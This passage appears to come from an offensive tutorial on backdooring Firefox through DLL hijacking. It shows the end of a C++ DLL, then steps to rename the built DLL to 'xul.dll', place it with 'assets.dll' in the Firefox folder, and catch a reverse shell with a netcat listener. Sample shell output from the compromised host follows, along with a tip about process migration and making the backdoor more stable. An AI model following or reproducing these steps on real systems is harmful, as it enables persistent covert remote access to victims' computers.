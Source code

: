 ```cpp
    }
    return TRUE;
}
```

- Build the DLL by pressing `F7` and you should find the compiled DLL in the `x64/Debug` folder
- Rename the built dll with the original and legit dll name in this case: `xul.dll`
- Now copy both `assets.dll` and `xul.dll` back to the original Firefox folder.
- Run `nc -lvnp 1234`
- Everytime `Firefox` is opened:

```powershell
C:\Program Files\Mozilla Firefox>echo %USERNAME%
echo %USERNAME%
virgula
```

> [!TIP]
> 
> Remember that the connection works only until `Firefox` will keep running, but the process can be migrated and the backdoor code should and must be updated to something more stable.
